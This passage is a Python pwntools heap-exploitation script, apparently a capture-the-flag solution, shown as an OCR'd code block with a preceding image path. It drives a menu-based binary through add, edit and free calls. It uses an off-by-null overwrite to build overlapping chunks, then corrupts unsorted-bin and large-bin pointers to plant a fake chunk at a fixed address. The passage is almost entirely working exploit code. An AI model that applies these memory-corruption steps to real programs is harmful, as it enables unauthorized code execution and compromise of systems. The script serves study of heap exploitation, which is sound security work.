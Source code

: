  ```python
 
 def free(index):
  p.sendlineafter('Choice: ', '3')
  p.sendlineafter('?\n', str(index))
 
 gdb.attach(p)
 add(0x18)  #0
 add(0x508) #1
 add(0x18)  #2
 
 add(0x18)  #3
 add(0x508) #4
 add(0x18)  #5
 add(0x18)  #6
 
 edit(1,'a'*0x4f0+p64(0x500)) #prev_size
 edit(4,'a'*0x4f0+p64(0x500)) #prev_size
 
 free(1)
 edit(0,'a'*0x18) #off by null
 
 add(0x18)  #1
 add(0x4d8) #7 
 
 free(1)
 free(2)    #overlap
 
 
 #recover
 add(0x30)  #1
 add(0x4e0) #2
 
 free(4)
 edit(3,'a'*0x18) #off by null
 add(0x18)        #4
 add(0x4d8)       #8 
 free(4)
 free(5)          #overlap
 add(0x40)        #4 
 edit(8, 'aaaa')
 # pause()
 
 free(2)     #unsortedbin-> chunk2 -> chunk5(0x4e0)    which size is largebin FIFO
 add(0x4e8)  #put chunk5(0x4e0) to largebin
 free(2)     #put chunk2 to unsortedbin
 
 content_addr = 0xabcd0100
 fake_chunk = content_addr - 0x20
 
 payload = p64(0)*2 + p64(0) + p64(0x4f1) # size
 payload += p64(0) + p64(fake_chunk)      # bk
 edit(7, payload)
 
 payload2 = p64(0)*4 + p64(0) + p64(0x4e1)  #size
 payload2 += p64(0) + p64(fake_chunk+8)   
 payload2 += p64(0) + p64(fake_chunk-0x18-5)#mmap
 edit(8, payload2)
 # pause()
 
 add(0x48)
 payload = p64(0) * 2 + p64(0) * 6
 edit(2, payload)
 
 ```